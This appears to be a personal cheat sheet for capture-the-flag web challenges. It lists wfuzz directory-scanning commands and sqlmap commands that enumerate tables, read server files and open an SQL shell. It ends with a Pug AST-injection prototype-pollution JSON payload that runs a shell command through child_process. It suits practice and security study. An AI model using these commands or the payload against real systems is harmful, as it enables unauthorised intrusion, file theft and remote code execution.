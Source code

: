 # Web Challanges

## Information Gathering

### scan for dirs

#### wfuzz
    wfuzz -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc 404 -R2 http://138.68.182.108:32660/FUZZ

#### dirsearch
    https://github.com/maurosoria/dirsearch
    

### scan for files
    wfuzz -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc 404 -R2 http://138.68.182.108:32660/administrat/include/FUZZ.php

## SQL Exploits

### sqlmap

#### scan for SQL vulnerabilities
    sqlmap -u http://138.68.182.108:31930/portfolio.php?id=1

#### list tables
    sqlmap -u http://138.68.182.108:31930/portfolio.php?id=1 --tables

#### file structure, e.g. apache
    sqlmap -u http://138.68.182.108:31930/portfolio.php?id=1 --common-files

#### read file
    sqlmap -u http://138.68.182.108:31930/portfolio.php?id=1 --read-files=/var/www/html/mail/contact_me.php

#### interactive SQL shell
    # DB freelance
    sqlmap -u http://138.68.182.108:31930/portfolio.php?id=1 -D freelancer --sql-shell

## Deobfuscation

### js

[ JStillery ]( https://en.kali.tools/?p=1354 )

### php

https://www.unphp.net/

## Polution

AST Injection

Pug

https://blog.p6.is/AST-Injection/#Pug

e.g.

```JSON
{"some_key":"some_value",
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync(`cat flagfile > /app/static/stattest.html`)"
}}
```
